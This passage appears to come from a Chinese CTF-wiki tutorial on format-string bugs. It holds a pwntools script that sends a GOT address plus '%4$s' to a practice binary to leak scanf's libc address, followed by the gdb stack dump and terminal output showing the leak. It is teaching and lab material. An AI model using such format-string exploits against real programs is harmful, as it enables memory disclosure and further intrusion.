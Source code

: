 ```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()

```

其中，我们使用gdb.attach(sh)来进行调试。当我们运行到第二个printf函数的时候(记得下断点)，可以看到我们的第四个参数确实指向我们的scanf的地址，这里输出

```python
 → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret    
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret    
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp	 ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000

```

同时，在我们运行的terminal下

```python
➜  leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```
